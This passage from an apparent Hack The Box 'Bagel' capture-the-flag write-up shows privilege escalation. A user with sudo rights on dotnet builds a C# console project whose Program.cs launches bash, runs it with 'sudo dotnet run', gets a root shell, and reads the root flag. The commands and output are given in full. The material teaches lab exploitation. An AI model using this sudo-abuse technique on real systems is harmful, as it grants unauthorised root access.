 
#### Execution via New Project

For fun, I’ll show how to create a fill C# application instead of running it
from the F# terminal. I’ll create a directory, `/dev/shm/exploit`, and go into
it. From there, I’ll create a new project with `dotnet`:

    
    
    [developer@bagel exploit]$ dotnet new console 
    The template "Console App" was created successfully.
    
    Processing post-creation actions...
    Running 'dotnet restore' on /dev/shm/exploit/exploit.csproj...
      Determining projects to restore...
      Restored /dev/shm/exploit/exploit.csproj (in 163 ms).
    Restore succeeded.
    
    [developer@bagel exploit]$ ls
    exploit.csproj  obj  Program.cs
    

This creates a `.csproj` file, a starter `Program.cs`, and an `obj` directory.
The source is a simple Hello World:

    
    
    // See https://aka.ms/new-console-template for more information
    Console.WriteLine("Hello, World!");
    

It runs:

    
    
    [developer@bagel exploit]$ dotnet run
    Hello, World!
    

I’ll update `Program.cs` to invoke a shell just as I did above:

    
    
    Console.WriteLine("Going into shell...");
    System.Diagnostics.Process.Start("bash").WaitForExit();
    Console.WriteLine("Left shell, exiting!");
    

It works:

    
    
    [developer@bagel exploit]$ sudo dotnet run
    Going into shell...
    [root@bagel exploit]# id
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [root@bagel exploit]# cat /root/root.txt
    7ca14c4d************************
    [root@bagel exploit]# exit
    exit
    Left shell, exiting!
    

[](/2023/06/03/htb-bagel.html)


